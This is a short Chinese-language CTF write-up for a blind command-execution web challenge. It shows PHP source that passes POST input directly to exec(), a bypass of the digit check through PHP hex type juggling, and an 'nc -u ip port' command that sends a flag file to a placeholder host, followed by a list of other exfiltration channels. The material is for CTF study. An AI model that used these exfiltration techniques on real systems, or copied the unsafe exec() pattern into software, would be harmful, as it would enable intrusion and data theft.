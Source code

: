```yaml
---
title: Blind cmd exec
date: 2018-02-02 00:00:00
categories:
- CTF/Web
tags: 百度杯十月 php黑魔法 命令执行
---
```


## 扫描拿源码

- index.php
- .index.php.swp  

下载备份文件并用vi恢复  

`$vi -r index.php`

```php
<html>
<head>
<title>blind cmd exec</title>
<meta language='utf-8' editor='vim'>
</head>
</body>
<img src=pic.gif>
<?php
/*
flag in flag233.php
*/
 function check($number)
{
        $one = ord('1');
        $nine = ord('9');
        for ($i = 0; $i < strlen($number); $i++)
        {   
                $digit = ord($number{$i});
                if ( ($digit >= $one) && ($digit <= $nine) )
                {
                        return false;
                }
        }
           return $number == '11259375';
}
if(isset($_GET[sign])&& check($_GET[sign])){
	setcookie('auth','tcp tunnel is forbidden!');
	if(isset($_POST['cmd'])){
		$command=$_POST[cmd];
		$result=exec($command);
		//echo $result;
	}
}else{
	die('no sign');
}
?>
</body>
</html>

```

## 绕过

- 用十六进制绕过php弱类型相等0xabcdef==11259375，这样就不包含1-9这几个字符了

## 带出数据

- tcp被禁止所以可以采用nc的udp模式或者dns带出数据  
`cmd=nc -u ip port < flag233.php`

- curl
- nc
- dns
- wget
- ping
